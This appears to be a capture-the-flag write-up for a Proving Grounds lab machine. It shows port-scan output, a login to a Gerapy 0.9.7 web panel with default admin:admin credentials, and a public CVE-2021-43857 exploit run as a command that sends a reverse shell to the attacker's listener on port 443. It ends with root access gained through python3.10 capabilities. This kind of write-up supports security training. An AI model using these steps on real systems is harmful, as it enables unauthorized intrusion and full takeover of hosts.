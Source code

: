 Running a port scan with `rustcan -a IPADDRESS -- -A -sC -sV > levram.nmap`

```
PORT     STATE SERVICE  REASON  VERSION
22/tcp   open  ssh      syn-ack OpenSSH 8.9p1 Ubuntu 3 (Ubuntu Linux; protocol 2.0)
8000/tcp open  http-alt syn-ack WSGIServer/0.2 CPython/3.10.6
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.1 404 Not Found
|     Date: Fri, 10 Nov 2023 10:39:07 GMT
|     Server: WSGIServer/0.2 CPython/3.10.6
|     Content-Type: text/html
|     Content-Length: 9979
|     Vary: Origin
|     <!DOCTYPE html>
|     <html lang="en">
|     <head>
|     <meta http-equiv="content-type" content="text/html; charset=utf-8">
|     <title>Page not found at /nice ports,/Trinity.txt.bak</title>
|     <meta name="robots" content="NONE,NOARCHIVE">
|     <style type="text/css">
|     html * { padding:0; margin:0; }
|     body * { padding:10px 20px; }
|     body * * { padding:0; }
|     body { font:small sans-serif; background:#eee; color:#000; }
|     body>div { border-bottom:1px solid #ddd; }
|     font-weight:normal; margin-bottom:.4em; }
|     span { font-size:60%; color:#666; font-weight:normal; }
|     table { border:none; border-collapse: collapse; width:100%; }
|     vertical-align:top; padding:2px 3px; }
|     width:12em; text-align:right; color:#6
|   GetRequest: 
|     HTTP/1.1 200 OK
|     Date: Fri, 10 Nov 2023 10:39:02 GMT
|     Server: WSGIServer/0.2 CPython/3.10.6
|     Content-Type: text/html; charset=utf-8
|     Vary: Accept, Origin
|     Allow: GET, OPTIONS
|     Content-Length: 2530
|_    <!DOCTYPE html><html lang=en><head><meta charset=utf-8><meta http-equiv=X-UA-Compatible content="IE=edge"><meta name=viewport content="width=device-width,initial-scale=1"><link rel=icon href=/favicon.ico><title>Gerapy</title><link href=/static/css/chunk-10b2edc2.79f68610.css rel=prefetch><link href=/static/css/chunk-12e7e66d.8f856d8c.css rel=prefetch><link href=/static/css/chunk-39423506.2eb0fec8.css rel=prefetch><link href=/static/css/chunk-3a6102b3.0fe5e5eb.css rel=prefetch><link href=/static/css/chunk-4a7237a2.19df386b.css rel=prefetch><link href=/static/css/chunk-531d1845.b0b0d9e4.css rel=prefetch><link href=/static/css/chunk-582dc9b0.d60b5161.css rel=prefetch><link href=/static/css/chun
|_http-cors: GET POST PUT DELETE OPTIONS PATCH
| http-methods: 
|_  Supported Methods: GET OPTIONS
|_http-server-header: WSGIServer/0.2 CPython/3.10.6
|_http-title: Gerapy
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port8000-TCP:V=7.80%I=7%D=11/10%Time=654E0847%P=x86_64-alpine-linux-mus
SF:l%r(GetRequest,AAA,"HTTP/1\.1\x20200\x20OK\r\nDate:\x20Fri,\x2010\x20No
SF:v\x202023\x2010:39:02\x20GMT\r\nServer:\x20WSGIServer/0\.2\x20CPython/3
SF:\.10\.6\r\nContent-Type:\x20text/html;\x20charset=utf-8\r\nVary:\x20Acc
SF:ept,\x20Origin\r\nAllow:\x20GET,\x20OPTIONS\r\nContent-Length:\x202530\
SF:r\n\r\n<!DOCTYPE\x20html><html\x20lang=en><head><meta\x20charset=utf-8>
SF:<meta\x20http-equiv=X-UA-Compatible\x20content=\"IE=edge\"><meta\x20nam
SF:e=viewport\x20content=\"width=device-width,initial-scale=1\"><link\x20r
SF:el=icon\x20href=/favicon\.ico><title>Gerapy</title><link\x20href=/stati
SF:c/css/chunk-10b2edc2\.79f68610\.css\x20rel=prefetch><link\x20href=/stat
SF:ic/css/chunk-12e7e66d\.8f856d8c\.css\x20rel=prefetch><link\x20href=/sta
SF:tic/css/chunk-39423506\.2eb0fec8\.css\x20rel=prefetch><link\x20href=/st
SF:atic/css/chunk-3a6102b3\.0fe5e5eb\.css\x20rel=prefetch><link\x20href=/s
SF:tatic/css/chunk-4a7237a2\.19df386b\.css\x20rel=prefetch><link\x20href=/
SF:static/css/chunk-531d1845\.b0b0d9e4\.css\x20rel=prefetch><link\x20href=
SF:/static/css/chunk-582dc9b0\.d60b5161\.css\x20rel=prefetch><link\x20href
SF:=/static/css/chun")%r(FourOhFourRequest,279E,"HTTP/1\.1\x20404\x20Not\x
SF:20Found\r\nDate:\x20Fri,\x2010\x20Nov\x202023\x2010:39:07\x20GMT\r\nSer
SF:ver:\x20WSGIServer/0\.2\x20CPython/3\.10\.6\r\nContent-Type:\x20text/ht
SF:ml\r\nContent-Length:\x209979\r\nVary:\x20Origin\r\n\r\n<!DOCTYPE\x20ht
SF:ml>\n<html\x20lang=\"en\">\n<head>\n\x20\x20<meta\x20http-equiv=\"conte
SF:nt-type\"\x20content=\"text/html;\x20charset=utf-8\">\n\x20\x20<title>P
SF:age\x20not\x20found\x20at\x20/nice\x20ports,/Trinity\.txt\.bak</title>\
SF:n\x20\x20<meta\x20name=\"robots\"\x20content=\"NONE,NOARCHIVE\">\n\x20\
SF:x20<style\x20type=\"text/css\">\n\x20\x20\x20\x20html\x20\*\x20{\x20pad
SF:ding:0;\x20margin:0;\x20}\n\x20\x20\x20\x20body\x20\*\x20{\x20padding:1
SF:0px\x2020px;\x20}\n\x20\x20\x20\x20body\x20\*\x20\*\x20{\x20padding:0;\
SF:x20}\n\x20\x20\x20\x20body\x20{\x20font:small\x20sans-serif;\x20backgro
SF:und:#eee;\x20color:#000;\x20}\n\x20\x20\x20\x20body>div\x20{\x20border-
SF:bottom:1px\x20solid\x20#ddd;\x20}\n\x20\x20\x20\x20h1\x20{\x20font-weig
SF:ht:normal;\x20margin-bottom:\.4em;\x20}\n\x20\x20\x20\x20h1\x20span\x20
SF:{\x20font-size:60%;\x20color:#666;\x20font-weight:normal;\x20}\n\x20\x2
SF:0\x20\x20table\x20{\x20border:none;\x20border-collapse:\x20collapse;\x2
SF:0width:100%;\x20}\n\x20\x20\x20\x20td,\x20th\x20{\x20vertical-align:top
SF:;\x20padding:2px\x203px;\x20}\n\x20\x20\x20\x20th\x20{\x20width:12em;\x
SF:20text-align:right;\x20color:#6");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

NSE: Script Post-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 10:40
Completed NSE at 10:40, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 10:40
Completed NSE at 10:40, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 10:40
Completed NSE at 10:40, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 111.00 seconds


```

On port 8000 shows a webpage running on `WSGIServer 0.2`.

![Pasted image 20231112194914](https://github.com/tehokopi/Proving-Grounds/assets/150654583/2f93914e-9935-4446-913d-a62266086555)


Trying some credentials such as admin:admin
![[Pasted image 20231110184617.png]]

Brought us to the login page. At the bottom, we see a `Gerapy v.0.9.7`, which will be taken note of.
![[Pasted image 20231110184653.png]]
Googling the Graphy v0.9.7, there's an exploit on both github and exploitdb.
https://github.com/LongWayHomie/CVE-2021-43857
https://www.exploit-db.com/exploits/50640

At first, running the exploit keeps giving an index out of range error.
![[Pasted image 20231110205858.png]]

Reading the README on github,
![[Pasted image 20231110210029.png]]

The exploit will fail if there are no projects, hence, create a random project called test.
![[Pasted image 20231110210100.png]]

Then run the exploit again
 `python3 CVE.py -t 192.168.196.24 -p 8000 -L 192.168.45.157 -P 443`


![[Pasted image 20231110210117.png]]

Then we get a shell on our listening port on 443.
![[Pasted image 20231110210202.png]]

# Privilege Escalation

Running Linpeas to enumerate
We see capabilities set on python3.10
![[Pasted image 20231111012423.png]]

This can also be viewed with the command:
`/usr/sbin/getcap -r / 2>/dev/null`

Now, create a script with the following and transfer it to the target:
![[Pasted image 20231111012610.png]]
setting the  setuid to 0

Running the exploit with :
python3.10 exploit.py

And we achieve root
![[Pasted image 20231111012657.png]]

